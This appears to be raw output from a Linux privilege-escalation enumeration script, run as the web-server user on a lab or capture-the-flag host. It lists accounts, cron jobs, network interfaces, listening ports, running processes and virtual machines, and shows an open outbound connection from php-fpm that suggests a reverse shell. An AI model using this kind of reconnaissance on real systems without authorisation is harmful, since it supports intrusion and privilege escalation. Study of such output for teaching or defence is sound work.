www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
messagebus:x:108:111::/var/run/dbus:/bin/false
blueprint:x:1000:1000:blueprint,,,:/home/blueprint:/bin/bash
colord:x:109:117:colord colour management daemon,,,:/var/lib/colord:/bin/false
libvirt-qemu:x:64055:115:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
libvirt-dnsmasq:x:110:118:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin


[-] Super user account(s):
root


[-] Accounts that have recently used sudo:
/home/blueprint/.sudo_as_admin_successful


[-] Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root      root      4.0K Oct  1  2017 .
drwxr-xr-x 23 root      root      4.0K Oct 24  2017 ..
drwxr-xr-x  6 blueprint blueprint 4.0K Nov 20  2017 blueprint


### ENVIRONMENTAL #######################################
[-] Environment information:
SHELL=bash
USER=www-data
PWD=/
HOME=/var/www
SHLVL=2
_=/usr/bin/env


[-] Path information:
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.


[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen


[-] Current umask value:
0000
u=rwx,g=rwx,o=rwx


[-] umask value as specified in /etc/login.defs:
UMASK		022


[-] Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x   2 root root 4096 Oct  4  2017 .
drwxr-xr-x 103 root root 4096 Oct  4  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--   1 root root  589 Jul 16  2014 mdadm
-rw-r--r--   1 root root  670 Mar  1  2016 php

/etc/cron.daily:
total 44
drwxr-xr-x   2 root root 4096 Oct  1  2017 .
drwxr-xr-x 103 root root 4096 Oct  4  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x   1 root root  376 Mar 31  2016 apport
-rwxr-xr-x   1 root root 1474 Jun 19  2017 apt-compat
-rwxr-xr-x   1 root root 1597 Nov 26  2015 dpkg
-rwxr-xr-x   1 root root 1029 Aug 11  2017 libvirt-bin
-rwxr-xr-x   1 root root  372 May  6  2015 logrotate
-rwxr-xr-x   1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x   1 root root  249 Nov 12  2015 passwd
-rwxr-xr-x   1 root root  214 May 24  2016 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x   2 root root 4096 Oct  1  2017 .
drwxr-xr-x 103 root root 4096 Oct  4  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x   2 root root 4096 Oct  1  2017 .
drwxr-xr-x 103 root root 4096 Oct  4  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder

/etc/cron.weekly:
total 20
drwxr-xr-x   2 root root 4096 Oct  1  2017 .
drwxr-xr-x 103 root root 4096 Oct  4  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x   1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x   1 root root  211 May 24  2016 update-notifier-common


[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


### NETWORKING  ##########################################
[-] Network and IP info:
corp      Link encap:Ethernet  HWaddr 52:54:00:87:ee:c0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1947 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:206746 (206.7 KB)  TX bytes:0 (0.0 B)

corp-nic  Link encap:Ethernet  HWaddr 52:54:00:87:ee:c0
          BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

ens32     Link encap:Ethernet  HWaddr 00:50:56:8f:f0:70
          inet addr:10.10.10.62  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:fe8f:f070/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:fe8f:f070/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:351471 errors:0 dropped:84 overruns:0 frame:0
          TX packets:362916 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:25253055 (25.2 MB)  TX bytes:31908784 (31.9 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:209 errors:0 dropped:0 overruns:0 frame:0
          TX packets:209 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:16650 (16.6 KB)  TX bytes:16650 (16.6 KB)

virbr0    Link encap:Ethernet  HWaddr 52:54:00:9c:e7:10
          inet addr:192.168.122.1  Bcast:192.168.122.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:737658 errors:0 dropped:0 overruns:0 frame:0
          TX packets:658920 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:26882138 (26.8 MB)  TX bytes:27811426 (27.8 MB)

virbr0-nic Link encap:Ethernet  HWaddr 52:54:00:9c:e7:10
          BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

vnet0     Link encap:Ethernet  HWaddr fe:54:00:74:9d:17
          inet6 addr: fe80::fc54:ff:fe74:9d17/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:737658 errors:0 dropped:0 overruns:0 frame:0
          TX packets:821623 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:37209350 (37.2 MB)  TX bytes:36272214 (36.2 MB)

vnet1     Link encap:Ethernet  HWaddr fe:54:00:32:59:e0
          inet6 addr: fe80::fc54:ff:fe32:59e0/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:21609 errors:0 dropped:0 overruns:0 frame:0
          TX packets:210086 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:1547967 (1.5 MB)  TX bytes:12827879 (12.8 MB)

vnet2     Link encap:Ethernet  HWaddr fe:54:00:82:69:f5
          inet6 addr: fe80::fc54:ff:fe82:69f5/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:41686 errors:0 dropped:0 overruns:0 frame:0
          TX packets:230534 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:3194958 (3.1 MB)  TX bytes:14132328 (14.1 MB)

vnet3     Link encap:Ethernet  HWaddr fe:54:00:01:c6:b8
          inet6 addr: fe80::fc54:ff:fe01:c6b8/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:47381 errors:0 dropped:0 overruns:0 frame:0
          TX packets:184312 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:4366987 (4.3 MB)  TX bytes:10008755 (10.0 MB)

vnet4     Link encap:Ethernet  HWaddr fe:54:00:32:d7:13
          inet6 addr: fe80::fc54:ff:fe32:d713/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:102673 errors:0 dropped:0 overruns:0 frame:0
          TX packets:264183 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:9415736 (9.4 MB)  TX bytes:18383832 (18.3 MB)

vnet5     Link encap:Ethernet  HWaddr fe:54:00:8f:b9:f9
          inet6 addr: fe80::fc54:ff:fe8f:b9f9/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:59801 errors:0 dropped:0 overruns:0 frame:0
          TX packets:199492 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:6728410 (6.7 MB)  TX bytes:12438948 (12.4 MB)

web       Link encap:Ethernet  HWaddr 52:54:00:15:08:7e
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:6185 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:797853 (797.8 KB)  TX bytes:0 (0.0 B)

web-nic   Link encap:Ethernet  HWaddr 52:54:00:15:08:7e
          BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)


[-] ARP history:
? (10.10.10.2) at 00:50:56:8f:64:fe [ether] on ens32
? (192.168.122.228) at 52:54:00:74:9d:17 [ether] on virbr0


[-] Nameserver(s):
nameserver 8.8.8.8


[-] Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens32


[-] Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:4               0.0.0.0:*               LISTEN      1103/nginx: worker
tcp        0      0 0.0.0.0:56423           0.0.0.0:*               LISTEN      1103/nginx: worker
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      1103/nginx: worker
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1103/nginx: worker
tcp        0      0 192.168.122.1:53        0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:88              0.0.0.0:*               LISTEN      1103/nginx: worker
tcp        0    116 10.10.10.62:51810       10.10.14.16:9003        ESTABLISHED 1175/php-fpm: pool
tcp6       0      0 :::80                   :::*                    LISTEN      1103/nginx: worker
tcp6       0      0 :::22                   :::*                    LISTEN      -


[-] Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 10.10.10.62:48237       8.8.8.8:53              ESTABLISHED -
udp        0      0 192.168.122.1:53        0.0.0.0:*                           -


### SERVICES #############################################
[-] Running processes:
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  0.0  0.0  38588  4232 ?        Ss   Jun11   0:18 /sbin/init
root          2  0.0  0.0      0     0 ?        S    Jun11   0:00 [kthreadd]
root          3  0.0  0.0      0     0 ?        S    Jun11   0:00 [ksoftirqd/0]
root          5  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kworker/0:0H]
root          7  0.0  0.0      0     0 ?        S    Jun11   1:11 [rcu_sched]
root          8  0.0  0.0      0     0 ?        S    Jun11   0:00 [rcu_bh]
root          9  0.0  0.0      0     0 ?        S    Jun11   0:00 [migration/0]
root         10  0.0  0.0      0     0 ?        S    Jun11   0:00 [watchdog/0]
root         11  0.0  0.0      0     0 ?        S    Jun11   0:00 [watchdog/1]
root         12  0.0  0.0      0     0 ?        S    Jun11   0:00 [migration/1]
root         13  0.0  0.0      0     0 ?        S    Jun11   0:00 [ksoftirqd/1]
root         15  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kworker/1:0H]
root         16  0.0  0.0      0     0 ?        S    Jun11   0:00 [watchdog/2]
root         17  0.0  0.0      0     0 ?        S    Jun11   0:00 [migration/2]
root         18  0.0  0.0      0     0 ?        S    Jun11   0:00 [ksoftirqd/2]
root         20  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kworker/2:0H]
root         21  0.0  0.0      0     0 ?        S    Jun11   0:00 [watchdog/3]
root         22  0.0  0.0      0     0 ?        S    Jun11   0:00 [migration/3]
root         23  0.0  0.0      0     0 ?        S    Jun11   0:00 [ksoftirqd/3]
root         25  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kworker/3:0H]
root         26  0.0  0.0      0     0 ?        S    Jun11   0:00 [kdevtmpfs]
root         27  0.0  0.0      0     0 ?        S<   Jun11   0:00 [netns]
root         28  0.0  0.0      0     0 ?        S<   Jun11   0:00 [perf]
root         29  0.0  0.0      0     0 ?        S    Jun11   0:00 [khungtaskd]
root         30  0.0  0.0      0     0 ?        S<   Jun11   0:00 [writeback]
root         31  0.0  0.0      0     0 ?        SN   Jun11   0:00 [ksmd]
root         32  0.0  0.0      0     0 ?        SN   Jun11   0:05 [khugepaged]
root         33  0.0  0.0      0     0 ?        S<   Jun11   0:00 [crypto]
root         34  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kintegrityd]
root         35  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root         36  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kblockd]
root         37  0.0  0.0      0     0 ?        S<   Jun11   0:00 [ata_sff]
root         38  0.0  0.0      0     0 ?        S<   Jun11   0:00 [md]
root         39  0.0  0.0      0     0 ?        S<   Jun11   0:00 [devfreq_wq]
root         44  0.0  0.0      0     0 ?        S    Jun11   0:07 [kswapd0]
root         45  0.0  0.0      0     0 ?        S<   Jun11   0:00 [vmstat]
root         46  0.0  0.0      0     0 ?        S    Jun11   0:00 [fsnotify_mark]
root         47  0.0  0.0      0     0 ?        S    Jun11   0:00 [ecryptfs-kthrea]
root         63  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kthrotld]
root         64  0.0  0.0      0     0 ?        S<   Jun11   0:00 [acpi_thermal_pm]
root         65  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root         66  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root         67  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root         68  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root         69  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root         70  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root         71  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root         72  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root         73  0.0  0.0      0     0 ?        S    Jun11   1:30 [scsi_eh_0]
root         74  0.0  0.0      0     0 ?        S<   Jun11   0:00 [scsi_tmf_0]
root         75  0.0  0.0      0     0 ?        S    Jun11   0:00 [scsi_eh_1]
root         76  0.0  0.0      0     0 ?        S<   Jun11   0:00 [scsi_tmf_1]
root         83  0.0  0.0      0     0 ?        S<   Jun11   0:00 [ipv6_addrconf]
root         96  0.0  0.0      0     0 ?        S<   Jun11   0:00 [deferwq]
root         97  0.0  0.0      0     0 ?        S<   Jun11   0:00 [charger_manager]
root         99  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root        150  0.0  0.0      0     0 ?        S    Jun11   0:00 [scsi_eh_2]
root        151  0.0  0.0      0     0 ?        S<   Jun11   0:00 [scsi_tmf_2]
root        152  0.0  0.0      0     0 ?        S<   Jun11   0:00 [vmw_pvscsi_wq_2]
root        153  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root        170  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kpsmoused]
root        171  0.0  0.0      0     0 ?        S<   Jun11   0:00 [ttm_swap]
root        172  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kworker/2:1H]
root        269  0.0  0.0      0     0 ?        S<   Jun11   0:00 [raid5wq]
root        295  0.0  0.0      0     0 ?        S<   Jun11   0:00 [bioset]
root        322  0.0  0.0      0     0 ?        S    Jun11   0:12 [jbd2/sda1-8]
root        323  0.0  0.0      0     0 ?        S<   Jun11   0:00 [ext4-rsv-conver]
root        366  0.0  0.0  35276  4016 ?        Ss   Jun11   0:01 /lib/systemd/systemd-journald
root        378  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kworker/1:1H]
root        391  0.0  0.0      0     0 ?        S<   Jun11   0:00 [iscsi_eh]
root        395  0.0  0.0      0     0 ?        S    Jun11   0:00 [kauditd]
root        398  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kworker/3:1H]
root        400  0.0  0.0      0     0 ?        S<   Jun11   0:00 [ib_addr]
root        416  0.0  0.0      0     0 ?        S<   Jun11   0:00 [ib_mcast]
root        417  0.0  0.0      0     0 ?        S<   Jun11   0:00 [ib_nl_sa_wq]
root        418  0.0  0.0      0     0 ?        S<   Jun11   0:00 [ib_cm]
root        420  0.0  0.0      0     0 ?        S<   Jun11   0:00 [iw_cm_wq]
root        422  0.0  0.0      0     0 ?        S<   Jun11   0:00 [rdma_cm]
root        436  0.0  0.0  94772   768 ?        Ss   Jun11   0:00 /sbin/lvmetad -f
root        455  0.0  0.0  44480  2476 ?        Ss   Jun11   0:01 /lib/systemd/systemd-udevd
root        485  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kvm-irqfd-clean]
systemd+    528  0.0  0.0 100324  1892 ?        Ssl  Jun11   0:13 /lib/systemd/systemd-timesyncd
root        913  0.0  0.0  29008  1896 ?        Ss   Jun11   0:00 /usr/sbin/cron -f
root        915  0.0  0.0   4400  1188 ?        Ss   Jun11   0:00 /usr/sbin/acpid
daemon      917  0.0  0.0  26044  1616 ?        Ss   Jun11   0:00 /usr/sbin/atd -f
root        920  0.0  0.0  20100  2100 ?        Ss   Jun11   0:03 /lib/systemd/systemd-logind
message+    922  0.0  0.0  42900  1992 ?        Ss   Jun11   0:07 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root        926  0.0  0.0  29880   856 ?        Ss   Jun11   0:00 /sbin/cgmanager -m name=systemd
root        934  0.0  0.0  95368  1104 ?        Ssl  Jun11   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
syslog      940  0.0  0.0 256400  1976 ?        Ssl  Jun11   0:00 /usr/sbin/rsyslogd -n
root        943  0.0  0.0 112900  3648 ?        Ss   Jun11   3:27 /usr/bin/vmtoolsd
root        947  0.0  0.0 304632  5160 ?        Ssl  Jun11   0:07 /usr/lib/snapd/snapd
root        967  0.0  0.0  13376    48 ?        Ss   Jun11   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root       1062  0.0  0.0  65520  3564 ?        Ss   Jun11   0:00 /usr/sbin/sshd -D
root       1081  0.0  0.0   5224   124 ?        Ss   Jun11   0:06 /sbin/iscsid
root       1082  0.0  0.0   5724  3520 ?        S<Ls Jun11   0:34 /sbin/iscsid
root       1102  0.0  0.0 125244   724 ?        Ss   Jun11   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
www-data   1103  0.0  0.0 125572  2452 ?        S    Jun11   0:21 nginx: worker process
www-data   1104  0.0  0.0 125572   936 ?        S    Jun11   0:21 nginx: worker process
www-data   1105  0.0  0.0 125836  3480 ?        S    Jun11   0:00 nginx: worker process
www-data   1106  0.0  0.0 125572   936 ?        S    Jun11   0:21 nginx: worker process
root       1107  0.0  0.0 805084  3200 ?        Rsl  Jun11   0:01 /usr/sbin/libvirtd
root       1148  0.0  0.0  15940  1460 tty1     Ss+  Jun11   0:01 /sbin/agetty --noclear tty1 linux
root       1172  0.0  0.0 244496  2468 ?        Ss   Jun11   0:16 php-fpm: master process (/etc/php/7.0/fpm/php-fpm.conf)
www-data   1175  0.0  0.1 245252 14740 ?        S    Jun11   0:00 php-fpm: pool www
www-data   1176  0.0  0.1 245248 14268 ?        S    Jun11   0:00 php-fpm: pool www
root       1198  0.0  0.0      0     0 ?        S<   Jun11   0:00 [kworker/0:1H]
libvirt+   1500  0.0  0.0  49984  1612 ?        S    Jun11   0:00 /usr/sbin/dnsmasq --conf-file=/var/lib/libvirt/dnsmasq/default.conf --leasefile-ro --dhcp-script=/usr/lib/libvirt/libvirt_leaseshelper
root       1504  0.0  0.0 193784  2912 ?        Ssl  Jun11   0:00 /usr/sbin/virtlogd
libvirt+   1614 12.6  7.2 2357852 590164 ?      Sl   Jun11 686:07 qemu-system-x86_64 -enable-kvm -name FW -S -machine pc-i440fx-xenial,accel=kvm,usb=off -cpu Westmere -m 1024 -realtime mlock=off -smp 2,sockets=2,cores=1,threads=1 -uuid 4a89bc8c-143f-4a45-ae65-84a9978fc5e7 -nographic -no-user-config -nodefaults -chardev socket,id=charmonitor,path=/var/lib/libvirt/qemu/domain-FW/monitor.sock,server,nowait -mon chardev=charmonitor,id=monitor,mode=control -rtc base=utc,driftfix=slew -global kvm-pit.lost_tick_policy=discard -no-hpet -no-shutdown -global PIIX4_PM.disable_s3=1 -global PIIX4_PM.disable_s4=1 -boot strict=on -device ich9-usb-ehci1,id=usb,bus=pci.0,addr=0x5.0x7 -device ich9-usb-uhci1,masterbus=usb.0,firstport=0,bus=pci.0,multifunction=on,addr=0x5 -device ich9-usb-uhci2,masterbus=usb.0,firstport=2,bus=pci.0,addr=0x5.0x1 -device ich9-usb-uhci3,masterbus=usb.0,firstport=4,bus=pci.0,addr=0x5.0x2 -device virtio-serial-pci,id=virtio-serial0,bus=pci.0,addr=0x4 -drive file=/var/lib/libvirt/images/FW.vmdk,format=vmdk,if=none,id=drive-ide0-0-0 -device ide-hd,bus=ide.0,unit=0,drive=drive-ide0-0-0,id=ide0-0-0,bootindex=1 -drive if=none,id=drive-ide0-0-1,readonly=on -device ide-cd,bus=ide.0,unit=1,drive=drive-ide0-0-1,id=ide0-0-1 -netdev tap,fd=25,id=hostnet0 -device rtl8139,netdev=hostnet0,id=net0,mac=52:54:00:74:9d:17,bus=pci.0,addr=0x3 -netdev tap,fd=27,id=hostnet1 -device rtl8139,netdev=hostnet1,id=net1,mac=52:54:00:32:59:e0,bus=pci.0,addr=0x7 -netdev tap,fd=28,id=hostnet2 -device rtl8139,netdev=hostnet2,id=net2,mac=52:54:00:82:69:f5,bus=pci.0,addr=0x8 -chardev pty,id=charserial0 -device isa-serial,chardev=charserial0,id=serial0 -chardev spicevmc,id=charchannel0,name=vdagent -device virtserialport,bus=virtio-serial0.0,nr=1,chardev=charchannel0,id=channel0,name=com.redhat.spice.0 -device qxl-vga,id=video0,ram_size=67108864,vram_size=67108864,vgamem_mb=16,bus=pci.0,addr=0x2 -chardev spicevmc,id=charredir0,name=usbredir -device usb-redir,chardev=charredir0,id=redir0 -chardev spicevmc,id=charredir1,name=usbredir -device usb-redir,chardev=charredir1,id=redir1 -device virtio-balloon-pci,id=balloon0,bus=pci.0,addr=0x6 -msg timestamp=on
root       1619  0.0  0.0      0     0 ?        S    Jun11   1:55 [kvm-pit/1614]
libvirt+   1661  4.2 29.5 3486936 2410928 ?     Sl   Jun11 228:05 qemu-system-x86_64 -enable-kvm -name WEB -S -machine pc-i440fx-xenial,accel=kvm,usb=off -cpu Westmere -m 2048 -realtime mlock=off -smp 2,sockets=2,cores=1,threads=1 -uuid 765c33b7-c165-49fb-ac76-ccd251b80f13 -nographic -no-user-config -nodefaults -chardev socket,id=charmonitor,path=/var/lib/libvirt/qemu/domain-WEB/monitor.sock,server,nowait -mon chardev=charmonitor,id=monitor,mode=control -rtc base=utc,driftfix=slew -global kvm-pit.lost_tick_policy=discard -no-hpet -no-shutdown -global PIIX4_PM.disable_s3=1 -global PIIX4_PM.disable_s4=1 -boot strict=on -device ich9-usb-ehci1,id=usb,bus=pci.0,addr=0x5.0x7 -device ich9-usb-uhci1,masterbus=usb.0,firstport=0,bus=pci.0,multifunction=on,addr=0x5 -device ich9-usb-uhci2,masterbus=usb.0,firstport=2,bus=pci.0,addr=0x5.0x1 -device ich9-usb-uhci3,masterbus=usb.0,firstport=4,bus=pci.0,addr=0x5.0x2 -device virtio-serial-pci,id=virtio-serial0,bus=pci.0,addr=0x4 -drive file=/var/lib/libvirt/images/WEB01.vmdk,format=vmdk,if=none,id=drive-ide0-0-0 -device ide-hd,bus=ide.0,unit=0,drive=drive-ide0-0-0,id=ide0-0-0,bootindex=1 -drive file=/dev/sr0,format=raw,if=none,id=drive-ide0-0-1,readonly=on -device ide-cd,bus=ide.0,unit=1,drive=drive-ide0-0-1,id=ide0-0-1 -netdev tap,fd=26,id=hostnet0 -device rtl8139,netdev=hostnet0,id=net0,mac=52:54:00:01:c6:b8,bus=pci.0,addr=0x3 -chardev pty,id=charserial0 -device isa-serial,chardev=charserial0,id=serial0 -chardev spicevmc,id=charchannel0,name=vdagent -device virtserialport,bus=virtio-serial0.0,nr=1,chardev=charchannel0,id=channel0,name=com.redhat.spice.0 -device qxl-vga,id=video0,ram_size=67108864,vram_size=67108864,vgamem_mb=16,bus=pci.0,addr=0x2 -chardev spicevmc,id=charredir0,name=usbredir -device usb-redir,chardev=charredir0,id=redir0 -chardev spicevmc,id=charredir1,name=usbredir -device usb-redir,chardev=charredir1,id=redir1 -device virtio-balloon-pci,id=balloon0,bus=pci.0,addr=0x6 -msg timestamp=on
root       1666  0.0  0.0      0     0 ?        S    Jun11   1:40 [kvm-pit/1661]
libvirt+   1708  4.3 22.9 3441728 1870232 ?     Sl   Jun11 238:32 qemu-system-x86_64 -enable-kvm -name DC -S -machine pc-i440fx-xenial,accel=kvm,usb=off -cpu Westmere -m 2048 -realtime mlock=off -smp 2,sockets=2,cores=1,threads=1 -uuid 3fe2f36c-ce5f-4907-b8d0-77f992d9e3c4 -nographic -no-user-config -nodefaults -chardev socket,id=charmonitor,path=/var/lib/libvirt/qemu/domain-DC/monitor.sock,server,nowait -mon chardev=charmonitor,id=monitor,mode=control -rtc base=utc,driftfix=slew -global kvm-pit.lost_tick_policy=discard -no-hpet -no-shutdown -global PIIX4_PM.disable_s3=1 -global PIIX4_PM.disable_s4=1 -boot strict=on -device ich9-usb-ehci1,id=usb,bus=pci.0,addr=0x5.0x7 -device ich9-usb-uhci1,masterbus=usb.0,firstport=0,bus=pci.0,multifunction=on,addr=0x5 -device ich9-usb-uhci2,masterbus=usb.0,firstport=2,bus=pci.0,addr=0x5.0x1 -device ich9-usb-uhci3,masterbus=usb.0,firstport=4,bus=pci.0,addr=0x5.0x2 -device virtio-serial-pci,id=virtio-serial0,bus=pci.0,addr=0x4 -drive file=/var/lib/libvirt/images/DC.vmdk,format=vmdk,if=none,id=drive-ide0-0-0 -device ide-hd,bus=ide.0,unit=0,drive=drive-ide0-0-0,id=ide0-0-0,bootindex=1 -drive if=none,id=drive-ide0-0-1,readonly=on -device ide-cd,bus=ide.0,unit=1,drive=drive-ide0-0-1,id=ide0-0-1 -netdev tap,fd=27,id=hostnet0 -device rtl8139,netdev=hostnet0,id=net0,mac=52:54:00:32:d7:13,bus=pci.0,addr=0x3 -chardev pty,id=charserial0 -device isa-serial,chardev=charserial0,id=serial0 -chardev spicevmc,id=charchannel0,name=vdagent -device virtserialport,bus=virtio-serial0.0,nr=1,chardev=charchannel0,id=channel0,name=com.redhat.spice.0 -device qxl-vga,id=video0,ram_size=67108864,vram_size=67108864,vgamem_mb=16,bus=pci.0,addr=0x2 -chardev spicevmc,id=charredir0,name=usbredir -device usb-redir,chardev=charredir0,id=redir0 -chardev spicevmc,id=charredir1,name=usbredir -device usb-redir,chardev=charredir1,id=redir1 -device virtio-balloon-pci,id=balloon0,bus=pci.0,addr=0x6 -msg timestamp=on
root       1713  0.0  0.0      0     0 ?        S    Jun11   1:41 [kvm-pit/1708]
